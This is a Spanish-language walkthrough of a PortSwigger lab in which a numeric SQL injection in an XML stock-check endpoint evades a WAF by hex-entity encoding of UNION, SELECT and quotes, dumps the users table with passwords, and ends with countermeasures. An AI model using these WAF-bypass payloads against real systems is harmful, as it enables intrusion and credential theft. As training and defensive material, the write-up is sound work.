

# Writeup: SQL injection with filter bypass via XML encoding (PortSwigger)

- **Lab**: SQL injection with filter bypass via XML encoding
- **URL**: https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
- **Categoría**: SQL Injection → UNION-based + WAF bypass via XML entity decoding
- **Dificultad**: Practitioner

---

## 1. Objetivo

Cambio total de patrón respecto a los labs anteriores de la serie blind:

- **Punto de inyección**: ya no es la cookie `TrackingId`. El endpoint `/product/stock` recibe **XML en el body** con `Content-Type: application/xml`. Los campos del XML (`productId`, `storeId`) viajan directos a una query SQL.
- **Hay WAF activo**: la app filtra patrones SQL conocidos (`UNION`, `SELECT`, comillas) y devuelve `403 Forbidden` con `"Attack detected"`.
- **Canal de salida visible**: la respuesta del endpoint imprime el resultado de la query — no es blind. Si conseguimos que la `UNION SELECT` ejecute, los datos vienen en el body.
- **Objetivo**: extraer la password de `administrator` y loguearse.

La técnica del lab: aprovechar que el WAF inspecciona el XML **raw** (antes del parseo) pero el backend ve el XML **parseado** (con entidades decodeadas). Si codificamos las palabras clave SQL como entidades hex de XML (`&#x55;` = `U`), el WAF no reconoce el patrón pero el SQL llega bien formado al backend.

---

## 2. Recon — encontrar el endpoint XML

Click en cualquier producto → botón "Check stock" → se dispara una request en background. Captura en Burp:

```http
POST /product/stock HTTP/2
Host: 0a64006204b250b5825233d500af007d.web-security-academy.net
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
</stockCheck>
```

Respuesta:

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Length: 9

417 units
```

Dos campos candidatos a inyección: `productId` y `storeId`. Ambos parecen numéricos. La estructura típica del backend es algo como:

```sql
SELECT stock FROM stock_table WHERE product_id=<productId> AND store_id=<storeId>
```

---

## 3. Confirmar SQLi

Antes de pelearme con el WAF, confirmar que hay inyección. Test sin keywords sospechosos — sólo aritmética:

```xml
<storeId>3-1</storeId>
```

Si `storeId` se inserta sin comillas (numeric SQLi), la DB evaluará `3-1=2` y devolverá el mismo resultado que `<storeId>2</storeId>` → `417 units`. Si está parametrizado o entre comillas, fallará o devolverá otra cosa.

**Resultado**: `417 units`. **Numeric SQLi confirmada en `storeId`** — la query es:

```sql
SELECT stock FROM ... WHERE product_id=1 AND store_id=<INSERTAR_AQUI_SIN_COMILLAS>
```

Ventaja del test aritmético: pasa por debajo del radar del WAF (no contiene `'`, `UNION`, `SELECT`…).

---

## 4. Confirmar y mapear el WAF

Probar `'` y `UNION` por separado para ver qué bloquea:

```xml
<storeId>1'</storeId>
<storeId>1 UNION SELECT NULL</storeId>
```

**Resultado** (los dos):

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 17

"Attack detected"
```

WAF activo. El 403 no viene de la app — viene de un middleware/proxy delante. Esto es información útil:

- El WAF inspecciona el body XML como string crudo (busca substrings tipo `UNION`, `SELECT`, `'`).
- El parseo XML real sucede después, en el backend de la app.

Esa separación es justo lo que el bypass aprovecha.

---

## 5. El bypass — XML hex entities

XML define entidades de carácter en formato `&#xHH;` (hex) o `&#NNN;` (decimal). El parser XML las convierte al carácter literal antes de entregar el contenido a la lógica de aplicación. Por ejemplo:

```xml
<storeId>1 &#x55;NION &#x53;ELECT NULL</storeId>
```

- **El WAF ve**: `1 &#x55;NION &#x53;ELECT NULL` → no hay substring `UNION` ni `SELECT`. Pasa.
- **El parser XML decodea** `&#x55;` → `U`, `&#x53;` → `S`. El contenido de `<storeId>` cuando llega al backend es `1 UNION SELECT NULL`.
- **El backend lo mete en la SQL**: `… WHERE store_id=1 UNION SELECT NULL`. Se ejecuta.

Sólo hace falta encodear **la primera letra** de cada keyword. Eso rompe el match exacto del WAF (`UNION` ≠ `UNION` con la `U` enmascarada) y es lo mínimo necesario. Encodear la palabra entera (`&#x55;&#x4e;&#x49;&#x4f;&#x4e;`) también funciona pero es más ruidoso.

**Tabla de hex que terminamos usando:**

| Hex | Char | Por qué se encodea |
|---|---|---|
| `&#x55;` | `U` | Bloqueo de `UNION` |
| `&#x53;` | `S` | Bloqueo de `SELECT` |
| `&#x27;` | `'` | Bloqueo de comillas (necesario para literales como `'administrator'`) |

`FROM`, `users`, `||` (concatenación PostgreSQL) y `WHERE` no estaban en la lista del WAF de este lab — los dejamos literales.

### Test del bypass

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1 &#x55;NION &#x53;ELECT NULL</storeId>
</stockCheck>
```

**Resultado:**

```http
HTTP/2 200 OK
Content-Length: 14

351 units
null
```

Tres confirmaciones de un golpe:

1. **Status 200** vs el 403 de antes → el WAF no detectó el ataque.
2. **`null` en el body** → la `UNION SELECT NULL` se ejecutó y su row aparece en la respuesta. Es decir: el endpoint imprime **todos los rows** del result set, no solo el primero. Eso simplifica enormemente la extracción.
3. **`351 units` en lugar del baseline `417 units`** → cambió la query original (porque ahora `store_id=1` en vez de 2). Útil saberlo: la respuesta muestra primero la query original, luego nuestra UNION, separados por newline.

Match de columnas: `1`. La query original devuelve una sola columna (`stock`), así que nuestra `UNION SELECT NULL` con un solo `NULL` ya hace match.

---

## 6. Extracción

Sustituimos el `NULL` por la query que extrae credenciales. PostgreSQL usa `||` para concatenar strings; metemos un separador (`~`) entre `username` y `password`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1 &#x55;NION &#x53;ELECT username||&#x27;~&#x27;||password FROM users</storeId>
</stockCheck>
```

Las dos comillas que envuelven el `~` van encodeadas (`&#x27;`) — las comillas literales activarían el WAF.

**Resultado:**

```
carlos~gxiyk50xsy5uw8tapciq
administrator~vjbogleb3b2x6q7jk493
wiener~fytdwib2fxywby6xgat5
351 units
```

Toda la tabla `users` exfiltrada en una sola request. Password de `administrator`: `vjbogleb3b2x6q7jk493`.

> **Por qué `||` y no `,`**: la `UNION` sólo permite **una columna** en el SELECT (el match de columnas que ya validamos). Para sacar dos campos (`username` y `password`) hay que concatenarlos en una sola string. `||` es el operador estándar SQL para esto en PostgreSQL/Oracle/SQLite. En MySQL `||` es OR lógico por defecto, ahí se usa `CONCAT(username, '~', password)`.

---

## 7. Login y resolución

```
Username: administrator
Password: vjbogleb3b2x6q7jk493
```

Login → banner verde "Solved".



---

## 8. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Endpoint POST /product/stock recibe XML]
    B[2. Test 3-1 -> 417 units. Numeric SQLi en storeId]
    C[3. Test ' y UNION -> 403 'Attack detected'. WAF activo]
    D[4. Hipotesis: WAF inspecciona XML raw, backend ve XML parseado]
    E[5. Encodear keywords como hex entities &#xHH;]
    F[6. UNION SELECT NULL encodeado -> 200 con null. Bypass OK]
    G[7. Confirmar 1 columna y que el body lista todos los rows]
    H[8. UNION SELECT username || '~' || password FROM users -> tabla entera]
    I[9. Login admin -> solved]

    A --> B --> C --> D --> E --> F --> G --> H --> I
```

Cuatro ideas que llevarse:

1. **El test aritmético (`3-1` ≡ `2`) es el primer sondeo más limpio para numeric SQLi**: confirma inyección sin tocar ninguna keyword sospechosa, así que pasa por debajo de cualquier WAF basado en patrones. Si la query trata el campo como número y devuelve el mismo resultado, hay inyección. Mucho más sigiloso que un `'` directo.
2. **WAF de strings vs parser estructural — la asimetría es el bug**. Cualquier WAF que opera sobre el body antes de que la app lo parsee tiene este patrón: mira el wire format, no el contenido lógico. XML, JSON con caracteres Unicode/escape, multipart, gzip — todos tienen variantes del mismo bypass. Encodear es trivial; rediseñar el WAF para parsear cada formato y detectar sobre el AST es caro.
3. **El bypass mínimo (encodear sólo la primera letra) es preferible al masivo**. Encodear `&#x55;NION &#x53;ELECT &#x27;adm…&#x27;` deja el payload legible y debugeable; encodear todo (`&#x55;&#x4e;&#x49;&#x4f;&#x4e; &#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;`) funciona igual pero es ruidoso. Si una primera letra no basta (WAF más fino), se va escalando.
4. **El response que imprime todos los rows del result set es regalo**: con una sola UNION y un buen separador (`||':'||`) se vuelca una tabla entera. Cuando trabajes con UNION-based, mirar siempre primero si el endpoint devuelve N rows o solo el primero — cambia radicalmente la estrategia (una request vs iterar `LIMIT/OFFSET`).

---

## 9. Contramedidas

Defensas en orden de robustez:

1. **Consultas parametrizadas / prepared statements**. La defensa principal contra cualquier SQLi: el valor de `storeId` viaja como parámetro, no se concatena al SQL. Sin concatenación, `UNION` o `&#x55;NION` significan lo mismo: nada — son sólo bytes en los datos.
2. **Validación de tipo en el campo XML**: `productId` y `storeId` deberían ser enteros. Validar antes de que entren a la SQL (con un schema XSD o un check explícito) bloquea el ataque incluso si la query no está parametrizada. `int(value)` que lanza si recibe `1 UNION SELECT NULL` es una línea de código.
3. **WAF parseando el formato**: en lugar de inspeccionar el body como string, parsear el XML y aplicar las reglas sobre los **valores decodeados** de cada elemento. Algunos WAFs modernos (ModSecurity con CRS, Cloudflare) lo soportan para JSON; menos para XML. Más caro de implementar pero cierra la familia entera de bypasses por encoding.
4. **Allow-list de caracteres en valores numéricos**: si `storeId` semánticamente es un entero positivo, rechazar cualquier valor que no encaje en `^[0-9]+$` después del parseo XML. Es la versión específica del punto 2 aplicada como defensa en profundidad.
5. **Privilegio mínimo en la conexión a la DB**: la cuenta que ejecuta la query de stock no debería tener `SELECT` sobre `users`. Aunque la SQLi exista y la UNION funcione, la exfiltración de credenciales devolvería un error de permisos.
6. **Detectar respuestas anómalas en endpoints públicos**: el endpoint de stock devuelve normalmente `<int> units`. Una respuesta con varias líneas, palabras inusuales (`null`, `~`, hashes) o longitud >50 chars es señal de UNION-based en curso. Alertar.

---

## 10. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: SQL injection with filter bypass via XML encoding*. https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
- PortSwigger Web Security Academy. (s.f.). *SQL injection UNION attacks*. https://portswigger.net/web-security/sql-injection/union-attacks
- W3C. (2008). *Extensible Markup Language (XML) 1.0 (Fifth Edition) — Character References*. https://www.w3.org/TR/xml/#sec-references
- OWASP Foundation. (s.f.). *SQL Injection Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Web Application Firewall*. https://owasp.org/www-community/Web_Application_Firewall
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-sqli.md`](../../../inventario/04-explotacion/web/explotacion-sqli.md)
